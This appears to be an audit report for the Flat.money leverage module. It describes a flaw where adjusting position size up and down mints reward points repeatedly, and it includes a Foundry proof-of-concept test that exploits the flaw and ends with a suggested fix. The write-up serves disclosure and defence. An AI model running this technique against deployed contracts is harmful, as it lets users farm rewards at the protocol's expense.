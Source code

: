 Nutty Menthol Dog

high

# Users can mint as many `Flat.money Points`  as they want

## Summary
In the leverage module, the `executeAdjust` mints Flat.money Points if announcedAdjust.additionalSizeAdjustment >= 0. However a user can adjust the size both ways so every time they announce a positive adjustments they will receive points, which are not removed when they adjust the size down.This means that by adjusting the additional size up and down they will only increase their points being able to mint as much as they want.
## Vulnerability Detail
In `LeverageModule.sol` users can mint as many `Flat.money Points` as they like only paying small fees - tradeFee and KeeperFee.
PoC:
```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity 0.8.18;

import {ExpectRevert} from "../../helpers/ExpectRevert.sol";
import {OrderHelpers} from "../../helpers/OrderHelpers.sol";
import {FlatcoinErrors} from "../../../src/libraries/FlatcoinErrors.sol";
import {FlatcoinStructs} from "../../../src/libraries/FlatcoinStructs.sol";

import "forge-std/console2.sol";

contract AdjustPositionTest is OrderHelpers, ExpectRevert {
    struct StateBefore {
        FlatcoinStructs.Position position;
        FlatcoinStructs.PositionSummary positionSummary;
        FlatcoinStructs.MarketSummary marketSummary;
        FlatcoinStructs.GlobalPositions globalPositions;
        uint256 collateralPerShare;
    }

    struct StateAfter {
        FlatcoinStructs.Position position;
        FlatcoinStructs.PositionSummary positionSummary;
        FlatcoinStructs.MarketSummary marketSummary;
        FlatcoinStructs.GlobalPositions globalPositions;
        uint256 collateralPerShare;
    }

    uint256 leverageTradingFee = 0.001e18; // 0.1%

    function setUp() public override {
        super.setUp();

        vm.startPrank(admin);

        leverageModProxy.setLevTradingFee(leverageTradingFee);
    }

    function test_mintingPoints() public {
        vm.startPrank(alice);

        uint256 aliceCollateralBalanceBefore = WETH.balanceOf(alice);
        uint256 stableDeposit = 100e18;
        uint256 collateralPrice = 1000e8;

        announceAndExecuteDeposit({
            traderAccount: alice,
            keeperAccount: keeper,
            depositAmount: stableDeposit,
            oraclePrice: collateralPrice,
            keeperFeeAmount: 0
        });

        // 10 ETH margin, 30 ETH size (4x)
        uint256 tokenId = announceAndExecuteLeverageOpen({
            traderAccount: alice,
            keeperAccount: keeper,
            margin: 10e18,
            additionalSize: 20e18,
            oraclePrice: collateralPrice,
            keeperFeeAmount: 0
        });
        console2.log(pointsModProxy.balanceOf(alice));//14000000000000000000000 = 140e20

        uint256 adjustmentTradeFee = announceAndExecuteLeverageAdjust({
            tokenId: tokenId,
            traderAccount: alice,
            keeperAccount: keeper,
            marginAdjustment: 0,
            additionalSizeAdjustment: 10e18,
            oraclePrice: collateralPrice,
            keeperFeeAmount: 0
        });
        console2.log(pointsModProxy.balanceOf(alice));//16000000000000000000000 = 160e20
        adjustmentTradeFee = announceAndExecuteLeverageAdjust({
            tokenId: tokenId,
            traderAccount: alice,
            keeperAccount: keeper,
            marginAdjustment: 0,
            additionalSizeAdjustment: -10e18,
            oraclePrice: collateralPrice,
            keeperFeeAmount: 0
        });
        console2.log(pointsModProxy.balanceOf(alice));//16000000000000000000000 = 160e20
        adjustmentTradeFee = announceAndExecuteLeverageAdjust({
            tokenId: tokenId,
            traderAccount: alice,
            keeperAccount: keeper,
            marginAdjustment: 0,
            additionalSizeAdjustment: 10e18,
            oraclePrice: collateralPrice,
            keeperFeeAmount: 0
        });
        console2.log(pointsModProxy.balanceOf(alice));//18000000000000000000000 = 180e20
    }
}
```
## Impact
Users can mint as many `Flat.money Points` as they want - high
## Code Snippet
https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LeverageModule.sol?plain=1#L225-L230
## Tool used

Manual Review

## Recommendation
Maybe mint `Flat.money Points` only when closing a position.